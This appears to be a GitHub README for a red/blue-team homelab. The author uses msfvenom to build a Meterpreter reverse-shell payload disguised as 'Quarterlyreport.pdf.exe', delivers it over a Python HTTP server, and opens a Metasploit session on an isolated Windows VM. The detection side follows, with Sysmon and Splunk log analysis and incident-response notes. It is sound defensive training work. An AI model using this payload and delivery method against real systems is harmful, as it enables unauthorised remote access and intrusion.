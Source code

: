<h3>Objective</h3>

I created this lab to have a safe space to safely experiment with red/blue team roles in a live environment. In this lab, I will create a private network with two endpoints. One of the VMs will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and use Metasploit in the Kali Linux VM to attack our Blue team VM, which will have Sysmon and a Splunk instance to capture all the traffic. 

<h3>Skills Learned</h3>  

-Log analysis

-Configuration of a System Information Event Manager(SIEM)

-Red/blue teaming

-Virtual machine configuration

-Experience in a simulated live environment

<h3>Tools Used</h3>

-Splunk

-Sysmon

-Metasploit

<h3>Virtual Machine/Network Setup</h3>   

Spin up two VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the "Internal Network" setting while making both VM IPs static to the same network. This network scheme was selected to keep the VMs from being accessible from the open web, while also having the ability to communicate with each other.

The IP's in this Homelab: Windows VM- 192.168.33.2, Kali VM- 192.168.33.3 

For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

<h3>Splunk Setup</h3>

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance

<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999. 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the Payload to the Victim

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

